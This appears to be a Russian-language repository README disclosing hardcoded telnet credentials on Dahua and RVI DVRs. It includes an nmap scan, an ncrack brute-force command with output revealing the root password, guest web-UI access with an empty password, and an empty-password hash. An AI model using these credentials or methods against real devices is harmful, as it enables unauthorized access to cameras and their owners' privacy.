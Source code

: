 # Hardcoded логин\пароль от telntet в китайских DVR, таких Dahua, RVI.
[English](README.md) [Русский](README.ru.md)

Так же они могут в продаже под другими брендами.

Nmap report выглядит любопытно:
```
Nmap scan report for 192.168.100.15
Host is up (0.0050s latency).
Not shown: 65527 closed ports

PORT      STATE    SERVICE        VERSION

23/tcp    open     telnet         BusyBox telnetd
81/tcp    open     http           uc-httpd 1.0.0 #Web-ui, You can get guest access with guest\<empty> credentials
445/tcp   filtered microsoft-ds
4090/tcp  open     ssl/omasgport?
9527/tcp  open     unknown
9528/tcp  open     unknown
34567/tcp open     dhanalakshmi? #This port using for remote veiw in CMS
34599/tcp open     unknown

Device type: WAP
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.36
OS details: DD-WRT v24-sp1 (Linux 2.4.36)
Network Distance: 5 hops
Service Info: Host: LocalHost
```
С помощью ncrack я "восстановил" учетные данные для telnet.
```
ncrack 192.168.100.15:23 -U logins.txt -P passwords.txt
Starting Ncrack 0.6 ( http://ncrack.org ) at 2018-05-26 13:06
Discovered credentials for telnet on 192.168.100.15 23/tcp:
192.168.100.15:23 23/tcp telnet: 'root' 'xc3511'
Ncrack done: 1 service scanned in 27.06 seconds.
Ncrack finished.
```
Конфигурационные файлы Web-ui хранятся в /mnt/mtd/Config/, но я не разобрался с хэшированым паролем в файле Account1.
Так же, в моем случае был крайне обрезаный BusyBox и не было возможности использовать sed за замены значения в строке. Хэш пустого пароля - tlJwpbo6.

